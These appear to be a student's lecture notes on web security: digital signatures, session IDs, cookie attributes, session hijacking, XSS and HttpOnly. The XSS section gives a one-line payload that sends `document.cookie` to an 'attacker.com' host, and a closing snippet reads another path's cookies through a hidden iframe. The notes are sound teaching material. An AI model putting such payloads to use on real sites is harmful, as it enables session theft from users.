 ### Signing

- $G \to (pk,\ sk)$
- $S(sk,\ x) \to t$
- $V(pk,\ x,\ t) \to \text{Accept}$

use secret key $sk$ to sign, use public key $pk$ to verify.

### How to use `SessionId`

1. generate `SessionId` when the user login (and set it in cookie)
2. invalidate the generated `SessionId` when the user logouts (and clear it in cookie)

### History of cookies

- Implemented in 1994
- No spec for 17 years
- Ad-hoc design has led to *interesting* issues

### Cookie attributes
- `Expires` - specifies expration date. If no date, then last for session (here session means time when the user use the browser, if close the browser, it goes away)
- `Path` - Scope the "Cookie" **request header** to a particular **request path prefix**
  - e.g. At `web.stanford.edu/class/cs106a`, `document.cookie = 'sessionId=1234; Path=/class/cs106a'`; then at `web.stanford.edu/class/cs235`, `document.cookie` is empty string.
  - **Broken**! Do not use for security
- `Domain` - Allows the cookie to be scoped to a domain broder than the domain that returned the `Set-Cookie` header
  - e.g. `login.stanford.edu` could set a cookie for `stanford.edu`

### Sesskion hijacking mitigation

1. `Set-Cookie: key=value; Secure` - Use `Secure` cookie attribute to prevent cookie from being sent over unencrypted HTTP connections
2. Even better: Use HTTPS for entire website

### About XSS
1. The attacker inject malicious code to the website
   - e.g. `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`
2. The user visit the website
3. The user's cookie is sent to the attacker (session stealed)

### Protect cookies from XSS
Make cookie not accessable from javascript (Use `HttpOnly` cookie) 
```
Set-Cookie: key=value; Secure; HttpOnly  
```

### Bypass `Path`
At `web.standford.edu/class/cs253`,
```javascript
const iframe = document.createElement('iframe')
iframe.src = 'https://web.stanford.edu/class/cs106a/'
document.body.append(iframe)
iframe.style.display = 'none' // make it invisible 
iframe.contentDocument.cookie // read cookie set by https://web.stanford.edu/class/cs106a/
                              // stay tuned for same origin policy (the reason why we can do it)
```